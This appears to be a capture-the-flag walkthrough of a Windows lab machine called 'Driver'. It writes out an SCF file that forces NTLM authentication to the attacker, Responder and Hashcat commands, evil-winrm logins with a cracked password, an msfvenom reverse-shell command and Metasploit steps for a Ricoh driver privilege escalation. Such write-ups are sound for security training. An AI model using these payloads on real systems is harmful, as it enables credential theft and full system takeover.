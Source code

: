 ```yaml
---
title: Driver
date: 2025-05-25
tags: [easy, windows]
---
```


### Task 1

We're prompted for log on credentials when accessing the target over HTTP. What username is disclosed when looking at the HTTP response headers?

We use curl with the option for fetching headers only ``curl -I <target_ip>`` and see on the ``WWW-Authenticate`` the username admin.

![alt text](image-dr-1.png)

### Task 2

Weak passwords are all too common and this target is no exception. What is the password for this target's login?

Before using any automated tools, we try with the default, common password ``admin`` and it gets us in. On the main page we are presented with a MFP Firmware Update Center.

![alt text](image-dr-2.png)

### Task 3

There are several kinds of files that are commonly dropped into a file share to target other users who may browse to the share. If the user browses to the share, their host will try to authenticate to the attacker. What is the file extension that can be uploaded here to trigger that connection?

The file that is asked here, has the extension ``.scf`` which stands for Shell Command File. This file can be placed on a writable SMB share or web-based file upload to force outbound authentication requests. For more detailed information visit [MITRE ATT&CK](https://attack.mitre.org/techniques/T1187/)

### Task 4

We've intercepted an Net-NTLMv2 hash with Responder. What is the mode in Hashcat required to crack this hash format?

When Responder intercepts a Net-NTLMv2 hash, the format looks like:

```
USERNAME::DOMAIN:ServerChallenge:NTProofStr:Blob
```

This structure corresponds exactly to the format supported by Hashcat mode 5600 which is backed up by the Hashcat official documentation [Hashcat Generic hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Task 5

What is the tony user's password?

To solve this task, we will start responder ``sudo responder -I tun0`` and then upload a scf file to the file share via the printer upload form that would trigger an SMB authentication. We create a file as follows:

```
[Shell]
Command=2
IconFile=\\<host_ip>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

This works, and the Net-NTLMv2 hash is captured by Responder because this upload is reviewed manually and thus opened as the web page explains.

![alt text](image-dr-3.png)

As mentioned in the previous task, the full hash string can be cracked using Hashcat mode 5600. We create a file called tony_hash with this hash, we run ``hashcat -m 5600 -a 0 tony_hash.txt /usr/share/wordlists/rockyou.txt`` and the password is cracked.

### Task 6

Submit the flag located on the tony user's desktop.

We will first list the shared folders on the target Microsoft-DS by running ``smbclient -L //<target_ip> -U 'tony'`` using the user tony's password we found in the previous task. 

![alt text](image-dr-4.png)

Then we can try connecting directly to the ``C$`` default share by running ``smbclient //<target_ip>/C$ -U 'tony'`` which gave us access denied. We then try ``crackmapexec smb <target_ip> -u tony -p 'liltony' --shares`` 

![alt text](image-dr-5.png)

This validates that the user does not have access but we see that Windows 10 Enterprise is used which by default has WinRM installed and often enabled.

``crackmapexec winrm <target_ip> -u tony -p liltony``

![alt text](image-dr-16.png)

Since the service is enabled we can use ``evil-winrm -i <target_ip> -u tony -p liltony``. We have access and navigating to tony's Desktop we get the flag by ``cat user.txt``.

<!--truncate--> 

### Task 7

What is the filename that stores the command history for PowerShell for tony?

Based on [Microsoft Documentation](https://learn.microsoft.com/en-us/powershell/module/psreadline/get-psreadlineoption?view=powershell-7.5) the location of the command history can be revealed from the property ``HistorySavePath`` after running ``Get-PSReadlineOption``. Trying this did not work on the WinRM because it is not a fully interactive terminal. We try to view the default location to see if the history is stored there by ``type "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`` and it works, thus, the filename is ``ConsoleHost_history.txt``.

### Task 8 

Looking at the Powershell history we can see some actions being performed with a specific printer type. Research of this should show that it's exploitable for privilege escalation and a module is available for the Metasploit framework. What is the module name?

Looking through the output of the command history we see the driver name and name for the printer. Looking up on the CVE database online, we find the CVE to be ``CVE-2019-19363``. We spin Metasploit by ``msfonsole`` and search for the CVE ID by ``search cve:2019-19363`` finding the module name. 

![alt text](image-dr-6.png)

![alt text](image-dr-7.png)

### Task 9 

Initial attempts to exploit this vulnerability may fail under specific logon types such as non-interactive, but in this scenario we can switch to an interactive logon. What command can be used in Metasploit to switch to an interactive logon process?

First, we generate a Meterpreter Payload ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=4444 -f exe > shell.exe``. Then, run ``msfconsole`` to spin up a metasploit listener and start the module previously found by:

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <host_ip>
set LPORT 4444
run
```

Then, we upload the paylod inside the Evil-WinRM session ``upload shell.exe``and execute it ``.\shell.exe``. Going back to the Metasploit we get an interactive shell back.

![alt text](image-dr-9.png)

We need to ``backrgound`` that session and then start the module to exploit the vulnerable driver with the known CVE we found in the previous task. 

```
use exploit/windows/local/ricoh_driver_privesc
set session <session_id>
set LHOST <host_ip>
set payload windows/x64/meterpreter/reverse_tcp
run
```

Even though it seems that is working, the terminal hungs. The Ricoh driver exploit requires an interactive logon session with GUI access. So we need to use the ``migrate`` command to migrate the Meterpreter session into a GUI-based process. Bringing back the metasploit session by running ``sessions -i <session_id>`` and listing the processes ``ps`` we see that a good candidate is the ``explorer.exe``. We migrate by running ``migrate <explorer_id>``, then run the exploit again and it works. To validate we run ``getuid`` and we see that we have SYSTEM rights. 

![alt text](image-dr-10.png)

### Task 10 

In addtion to the 'RICOH PCL6 UniversalDriver V4.23' vulnerabiltiy, this target is also vulnerable to CVE-2021-1675 aka PrintNightmare. Is it possible to elevate to SYSTEM privileges with this CVE?

Looking up this [CVE on the CVE database](https://www.cvedetails.com/cve/CVE-2021-1675/), it is confirmed that there is a Metasploit module that if used, results in remote code execution as NT \AUTHORITY\SYSTEM.

### Task 11

Submit the flag located on the administrator's desktop.

From Task 9, we already have SYSTEM privileges. Navigating to the administrator's desktop we get the root flag by running ``cat root.txt``.